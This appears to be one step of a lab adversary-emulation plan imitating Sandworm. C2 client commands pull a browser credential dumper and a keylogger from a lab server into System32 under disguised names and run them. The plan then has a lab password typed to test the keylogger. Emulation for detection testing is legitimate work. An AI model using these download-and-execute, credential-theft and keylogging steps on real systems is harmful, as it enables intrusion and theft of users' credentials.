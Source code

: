 Sandworm obtains domain admin credentials by keylogging an RDP session from a valid user.

Sandworm then gets a list of all domain hosts using dsquery.

#### ☣️ Procedures

Upload the webCredDumper to gammu over Exaramel-Windows C2 channel (HTTPS / 192.168.0.4:443):

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe"
```

Execute the webCredDumper; you should see credentials from Chromium.

```bash
# Sandworm Team's CredRaptor tool can collect saved passwords from various internet browsers.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd C:\\Windows\\System32\\oradump.exe"
```

[Modified LaZagne](../../Resources/browser-creds/Windows)

Upload keylogger to gammu.

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/keylogger.exe C:\\Windows\\System32\\mslog.exe"
```

Execute the keylogger, logging keystrokes to mslog.txt.

```bash
# Sandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.

./evalsC2client.py --set-task Exaramel-Windows "exec-background C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt"
```

[Keylogger Source Code](../../Resources/keylogger/src/SetWindowsHookEx-Keylogger.cpp)

Now we will exercise the keylogger.

:warning: Switch to the gammu-RDP-session window.

Open the Windows RDP client on Gammu and *manually* type the following:

```
IP Address:  10.0.1.4
Username:    patreides
Password:    ebqMB7DmM81QVUqpf7XI
```

You must type this data manually to exercise the keylogger (caveat: if you fail to enter the password on the first try, just copy/paste it).

Give arrakis a minute to load, then right-click sign-out from the RDP session.

Keep the gammu RDP session open.

:warning: Go back to your control server terminal.
